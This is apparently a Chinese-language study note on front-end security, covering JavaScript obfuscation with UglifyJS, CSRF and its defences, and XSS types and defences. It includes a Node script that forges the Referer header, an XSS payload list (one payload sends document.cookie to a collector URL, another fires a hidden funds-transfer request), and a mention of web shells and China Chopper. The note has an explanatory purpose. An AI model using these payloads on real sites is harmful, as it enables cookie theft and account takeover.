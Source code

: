 # 前端安全

## 前端的加密与混淆
### 加密
js相比其他被编译成二进制应用，前端这种纯文本应用，太容易被解读和审改

加密原则: 减少加密为成本，增加破解的成本，需注意加密后的文件不易过大，没有人工介入不能破解、限制在其他域名部署、不容易被调试跟踪

加密手段: 基于key的和不基于key
> - 1.base64: 编码具有不可读性，用于传输8Bit字节代码的编码方式之一，可用于在HTTP环境下传递较长的标识信息。
> - 2.md5: 是对一段信息产生信息摘要，不可逆，原理是散列函数，使用hash算法，在计算过程中原文的部分信息是丢失了的
> - 3.sha1: 安全哈希算法主要适用于数字签名标准(DSA) - SHA-256、RSA、AES等nodejs加密模块: Crypto - 打包了 OpenSSL hash、HMAC哈希信息验证码、cipher加密、decipher解密、sign签名以及(验证)的功能

### 混淆
> - 常用手段: 重命名局部变量，压缩代码比如去掉尾部分好，常量替换，移除代码空白
> - **注意:全局变量不会更名，如localstorage**
> - 反混淆没什么难度
> - 常用混淆技术:
> - - UglifyJs: 目前流行压缩工具，热度高
> - - Closure Compiler: 开发语言JAVA，热度高
> - - JS Packer: 开发语言PHP，
> - - JS Min: 开发语言C

```
1.UglifyJs过程
- parser: 用于实现抽象语法树(AST)
- the code generator: 通过AST生成JS代码和source map
- compressor: 用于JS代码压缩
- mangler: 用于减少局部变量的重命名，用单字母替换
- scope analyzer: 用来判断 变量定义范围和变量引用范围，说白了就是作用域分析
- tree walker: AST树遍历工具
- tree transformer: AST树转换工具
2.使用
合并: uglifyjs a.js b.js -o c.min.js
压缩: uglifyjs a.js -c
source map: uglifyjs a.js b.js -o c.js --source-map
混淆: uglifyjs a.js -m
```

### 加密工具
1.站长工具，没什么卵用
![](readImg/tool.png)

2.打散提取所有字面量
  - https://jscrambler.com(收费，但也有免费版，包含webpack的，jquery的，nodejs的),这个好，因为它每次提取和打散是随机的，很难还原
![](readImg/逻辑混淆.jpg)

3.藏起来的代码: 把代码压缩进图片里，如js2png
![](readImg/打散提取所有字面量.png)

## CSRF
跨站伪造请求，它是利用假链接诱导用户，修改用户数据来请求真实网站，造成用户的损失
假设我做了一个假的饿了么“汉堡疯狂大减价”推广链接，你点开了，用你的数据跟真正的饿了么进行授权验证，验证通过了，我就可以拿到你授权数据，然后将送餐地址改成我的，然后我就可以免费餐了
![](readImg/CSRF.png)

辨别一下 www.taobao.com 与 www.taobao。com  真伪，据说有人被调过鱼 

防范的手段:
> - 1.服务通过判别浏览器http请求头 referer，如果不等于我的域名，就是钓鱼网站，403拒绝请求(也无法保证二级域名是钓鱼网站，而且通过nodejs可以伪造referer因此也不保险)
```
var express = require('express');
var request = require('request');
var app = express();
var options = {
  url: 'http://localhost/csrfdemo/index.php?addr=qqqq',
  headers: {
    // 伪造referer
    'Referer': 'http://a.com'
  }
};
app.get('/',function(req, res){
   request(options. function(err, resp, body){
     res.send(body);
   });
});
```
> - 2.将get请求改成post, 防抓包
> - 3.增加短信验证码(AI可以破解)  
> - 4.token: 就是谁也不信，我只相信我自己的机制：md5戳+时间戳+session上一次访问的时间
> - 5.动态token(类似于网银密码器)


# XSS 跨站脚本攻击
> - 主动向服务器发起攻击，从而让所有访问该服务的用户均受到攻击
> - XSS针对输入进行攻击
> - - 反射型
> 被动的非持久性XSS，诱骗用户点击短型URL,服务器解析后响应，在返回的响应内容中隐藏和嵌入攻击者的XSS代码，从而攻击用户
> - - 持久型
> 也叫存储型XSS——主动提交恶意数据到服务器，当其他用户请求后，服务器从数据库中查询数据并发给用户收到攻击
> - - DOM型
> DOM通过html一个结构执行事件脚本`<img src="xx" onerror=""`

## 常见XSS payload
[参考](https://www.cnblogs.com/phpstudy2015-6/p/6767032.html)
[参考](https://www.jianshu.com/p/01377ad556f0)
```bash
1.输入框中直接输入恶意脚本，如：

><script>alert(document.cookie)</script>

或者 "> <script> document.location.href='http://127.0.0.1:9090/xss?foo='+document.cookie</script>
拿到cookie后，那我就可以拿到自己的浏览器器中进行登录，搞破坏了

2.输入框中输入html标签，在标签中嵌入恶意脚本，如src，href，css style等。

<IMG SRC="javascript:alert('XSS');">;

<img src="http://example.com/app/transferFunds?amount=1500&destinationAccount=attackersAcct#" width="0" height="0" />

<BODY BACKGROUND="javascript:alert('XSS')">

<STYLE>li {list-style-image:url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

3.将恶意脚本注入在event事件中，如onClick，onBlur，onMouseOver等事件。

<a onmouseover="alert(document.cookie)">xxslink</a>

4.在remote style sheet，javascript中，如

<LINK REL="stylesheet"HREF="javascript:alert('XSS');">

<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>

5.META 标签，如

<meta http-equiv="refresh"content="5" />

<META HTTP-EQUIV="Set-Cookie"Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

### 防XSS手段
> - 1.输入转义 
> - 2.输出转义
> - 3.Cookie HTTP Only
> - 4.CSP 商业机制，设定那些域名，链接可以读取cookie

### MBD防不胜防
> - 1.beef.js + xsser + web shell（利用上传漏洞编写木马）+ 中国菜刀 -> 进行服务器集权 -> 就能在服务器上新建一个用户 -> 呵呵
> - 2.服务商流量劫持(便宜路由、公共wifi)